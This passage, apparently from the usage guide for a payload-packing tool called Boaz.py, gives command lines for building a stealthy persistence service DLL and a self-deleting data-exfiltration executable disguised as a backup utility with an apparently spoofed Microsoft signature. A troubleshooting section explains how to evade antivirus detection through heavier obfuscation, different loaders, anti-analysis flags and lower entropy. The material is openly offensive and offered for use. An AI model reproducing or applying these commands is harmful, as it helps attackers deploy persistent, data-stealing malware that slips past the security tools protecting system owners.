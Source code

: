 ### Persistence Mechanism

```bash
# Service DLL with stealth
python3 Boaz.py \
  -f persistence.exe \
  -o service.dll \
  -dll \
  -l 48 \
  -e rc4 \
  -c akira \
  -obf \
  -a \
  -af
```

### Data Exfiltration

```bash
# Self-deleting exfiltration tool
python3 Boaz.py \
  -f exfil.exe \
  -o backup_utility.exe \
  -t donut \
  -l 37 \
  -e aes \
  -c pluto \
  -d \
  -af \
  -s www.microsoft.com
```

## Troubleshooting

### Common Issues

**Output doesn't execute**:
- Check Wine compatibility: `wine output.exe`
- Verify encoding matches loader
- Test with simpler loader (16)

**Detection by AV**:
- Increase obfuscation: Add `-c akira`
- Change loader: Try advanced loader (37, 51)
- Add anti-analysis: `-a -etw -cfg`
- Reduce entropy: `-entropy 2`

**Compilation errors**:
- Check LLVM installation
- Try different compiler: `-c mingw`
- Verify input file is valid PE

**Runtime crashes**:
- Test without encoding first
- Verify loader compatibility
- Check for bad characters (avoid `-sgn` initially)
